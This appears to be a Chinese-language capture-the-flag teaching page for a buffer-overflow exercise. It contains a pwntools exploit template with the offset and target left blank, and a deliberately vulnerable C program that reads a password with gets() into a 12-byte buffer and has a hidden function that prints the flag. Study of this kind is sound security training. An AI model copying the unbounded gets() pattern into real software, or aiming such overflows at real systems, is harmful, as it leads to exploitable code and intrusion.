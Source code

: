 ```c=
```

溫柔體貼的助教 [@stwater20](https://github.com/stwater20) 已經寫好腳本 exp1.py
```python=
from pwn import *


proc = process(["./practice04"])
#proc = remote("ctf.sectools.tw",1321)

input("[b4 sending]")

count = ??
ret_gadget = 0x40120b
target = ??

proc.sendline(b"A" *count+
		ret_gadget.to_bytes(8,"little")+
		target.to_bytes(8,"little")
		)
input("[aft sending]")
proc.interactive()

```

## Practice04 Solution
### 1. Code Review
practice04.c
```c=
#include <stdio.h>
#include <string.h>
#include <stdbool.h>
int PrivateTest(void);
bool IsPasswordValid(void);
int main(void){   //使用IsPasswordValid() 驗證密碼
	bool PWverify;
	puts("Enter your password:");
	PWverify=IsPasswordValid();
	if(!PWverify){
		puts("Password Error!! Please try again.");
		return -1;
	}
	else puts("Welcome. Your password is correct.");
	return 0;
}
int PrivateTest(void) //使用system() 系統命令 cat flag 
{
	system("cat /home/hacker/flag");
	return 0;
}
bool IsPasswordValid(void){ //Password 12 Byte
	char Password[12];
	gets(Password);
	if(!strcmp(Password, "secure pro"))
		return(true);
	else return(false);
}
```
